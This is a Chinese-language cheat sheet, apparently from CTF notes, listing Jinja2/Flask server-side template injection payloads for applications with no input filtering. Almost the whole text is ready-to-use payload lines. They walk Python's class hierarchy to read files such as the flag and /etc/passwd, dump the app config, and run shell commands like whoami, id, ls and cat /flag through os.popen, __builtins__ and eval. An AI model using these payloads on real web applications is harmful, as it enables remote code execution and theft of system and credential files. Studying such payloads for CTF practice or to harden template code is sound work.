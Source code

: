 

#### 无过滤情况

1、直接使用system、cat等命令进行远程代码执行

```
\#**简单查找具体python类的索引：**
import os
print(''.__class__.__bases__[0].__subclasses__().index(os._wrap_close))


\#读取config
如果flag写入config内，那么可以直接{{config}}查看或者{{self.dict._TemplateReference__context.config}}

\#读取文件类，<type ‘file’> file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)

\#直接使用popen命令，python2是非法的，只限于python3
！！！！！！！！
**os._wrap_close** 类里有popen和builtins,一般位置为132~139附近
<class ‘site._Printer’> 调用os的popen执行命令
<class ‘warnings.catch_warnings’>一般位置为59，可以用它来调用file、os、eval、commands等


{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}


\#调用os的popen执行命令
\#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
\#python3专属
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}


\#调用eval函数读取
\#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
{{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}
\#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} 
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}
{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}
```